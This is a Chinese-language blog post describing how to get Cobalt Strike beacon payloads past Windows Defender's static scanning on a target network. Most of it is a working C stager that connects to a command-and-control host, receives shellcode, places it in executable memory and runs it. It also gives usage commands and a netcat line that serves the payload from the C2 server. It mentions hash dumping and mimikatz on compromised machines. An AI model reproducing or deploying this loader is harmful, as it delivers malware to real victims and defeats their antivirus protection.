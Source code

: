 ```yaml
---
layout: post
title: Beacon-绕过windows defender
date: 2019-09-07 23:30:00
tags: Windows-Defender
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面 
最近工作实在是太忙了，一直想找时间把这篇文章写出来，无奈工作压力太大一直没能抽出时间。今天趁这个周末的晚上把这篇文章写完吧。  
之前用CS时习惯性的用windows dll，在windows server 2008 R2上一直运行的很不错，前段时间发现目标网络内部分操作系统升级到了windows server 2016，windows defender也升级到了最新版本，可想而知，没有经过第三方处理的CS beacon payload传上去之后瞬间就被秒了~~，果断google看看有没有好的解决办法，果然搜到了不少解决办法（具体见《参考》部分），今天只研究如何绕过静态扫描，以后补充如何绕过内存扫描、流量分析、行为分析，绕过静态扫描的方法：加密、混淆、截断拼接、payload字符（敏感字符或全部字符）替换、文件不落地等等，不过人怕出名猪怕壮，很多方法已经无法绕过windows defender的检测了。  
{:refdef: style="text-align: center;"}
![windows defender](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/windows%20defender.jpg?raw=true)
{: refdef}




图片来源于https://tweaklibrary.com/how-banking-trojan-disables-windows-defender-on-windows-10/
### \#0x01 尝试绕过 
在测试绕过windows defender的静态扫描时，首先使用了[Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)，结果Obfuscation的部分文件直接被windows defender报毒了，关了defender继续使用Obfuscation把cs的payload进行了混淆，结果，还是绕不过defender的静态扫描；后来使用了[Veil](https://github.com/Veil-Framework/Veil)加密CS的Veil payload，结果可以绕过相当一部分杀软的静态扫描，但是还是过不了最新版的defender静态扫描。    

Obfuscation和Veil的失败充分说明了什么叫“人怕出名猪怕壮”的道理。    

竟然混淆、加密都过不了defender的静态扫描，那尝试使用“文件不落地”的方式来绕过defender。  

思路如下：  
编写一个简单的stager，这个stager仅用于申请内存、下载payload并执行，该stager本身并不包含恶意代码，因此可以绕过windows defender的静态扫描。  

##### 1、编写stager
首先编写stager用于远程下载payload并执行，这个stager是一个TCP客户端，从我们的C2服务器下载payload、申请内存、执行payload。代码如下(Visual Studio 2010编译)：  
```
#include "stdafx.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#include <stdlib.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )


int main(int argc, char *argv[])
{    
	// Declare and initialize variables
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
   

	if (argc != 3) {
        fprintf(stderr,"usage: stager.exe hostname port\n");
        exit(0);
    }
	struct hostent *host;
    if ((host=gethostbyname(argv[1])) == NULL) {  /* get the host info */			
        puts("Get IP address error!");     
        exit(0);
    }
	
	int port = 0;
	if ((port = atoi(argv[2])) == NULL) {  /* get the port info */
        puts("Get port error!");     
        exit(0);
    }

    SOCKET sclient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if(sclient == INVALID_SOCKET)
    {
        printf("invalid socket !");
        return 0;
    }

    sockaddr_in serAddr;
    serAddr.sin_family = AF_INET;
    serAddr.sin_port = htons(port);
	serAddr.sin_addr = *((struct in_addr *)host->h_addr);
	
    if (connect(sclient, (sockaddr *)&serAddr, sizeof(serAddr)) == SOCKET_ERROR)
    {
        printf("connect error !");
        closesocket(sclient);
        return 0;
    }  
    char recData[1024];
    int receivedBytes = recv(sclient, recData, sizeof(recData), 0);
	printf("received:%d\n",receivedBytes);
    if(receivedBytes > 0)
    {      
		LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);	
		printf("Allocated memory for shellocode at:%p\n",shellcode);
	
		memcpy(shellcode, recData, sizeof(recData));	
		printf("Copied shellcode to:%p,Sending back meterpreter session...\n",shellcode);
		((void(*)()) shellcode)();
    }
    closesocket(sclient);
    WSACleanup();	
    return 0;
}
```
stager生成之后，上传至目标机器并执行，执行方式如：stager.exe c2_hostname port  
```
stager.exe www.xxxxxx.com 53    //使用域名方式
stager.exe 8.8.x.x 8080         //使用IP方式
```

##### 2、生成CS payload并在C2服务器启动TCP Server
使用CS生成payload  
{:refdef: style="text-align: center;"}
![生成payload](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/生成payload.png?raw=true)
{: refdef}   

在C2服务器上开启TCP Server，为了方便起见，直接使用netcat  
```
echo -e "\xfc\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\x00\x00\x00\x00\x00" | nc -l -p 53 -vvv
```
其中“\xfc\xxx\xxx\……\x00"为CS生成的payload。  

##### 3、目标上线
stager在目标机器上执行后，stager将在C2服务器下载payload并执行，目标上线。注意，虽然绕过了windows defender的静态扫描，但仍然需要小心defender的行为检测，比如利用beacon session进行提权、调用mimikatz时都会被defender检测到，不过dump hashes、proxy server等功能是可以正常执行的。  


### \#0x03 参考
* [渗透利器Cobalt Strike - 第2篇 APT级的全面免杀与企业纵深防御体系的对抗](https://xz.aliyun.com/t/4191#toc-5)
* [Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions](https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code) 
* [Cobalt Strike – Bypassing Windows Defender with Obfuscation](http://www.offensiveops.io/tools/cobalt-strike-bypassing-windows-defender-with-obfuscation/)
* [Evading Windows Defender with 1 Byte Change](https://ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)  
* [I rolled my own crypto to work around](https://twitter.com/curi0usJack/status/1083470829290164227?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1083470829290164227&ref_url=https%3A%2F%2Ftwitter.com%2Fcuri0usJack%2Fstatus%2F1083470829290164227) 